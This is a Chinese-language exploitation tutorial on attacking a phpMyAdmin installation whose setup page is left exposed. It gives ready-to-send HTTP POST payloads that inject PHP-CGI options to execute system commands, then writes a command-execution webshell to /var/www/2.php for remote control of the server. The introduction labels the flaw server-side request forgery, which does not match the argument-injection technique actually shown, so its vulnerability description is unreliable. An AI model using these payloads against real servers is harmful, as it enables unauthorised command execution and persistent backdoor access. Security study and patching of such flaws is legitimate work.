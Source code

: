 Phpmyadmin setup页面配置不当的利用姿势整合
==========================================

一、漏洞简介
------------

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

二、漏洞影响
------------

phpMyAdmin
4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

三、复现过程
------------

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)![1.png](./resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId24.png)我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
     #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

    Host: www.0-sec.org 

    Content-Length: 35

    <?php 

    passthru('id');        
     #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
     #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

    die();                
     #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

    ?>

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息![3.png](./resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId25.png)由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果![4.png](./resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId26.png)![5.png](./resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId27.png)命令如下

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 102

    <?php 

    passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
    #该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
    #反斜杠作用:避免服务器将上传内容过滤,输入命令无效
    die();

    ?>

通过在浏览器访问该木马,便可获取目标系统的shell![6.png](./resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId28.png)

参考链接
--------

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/
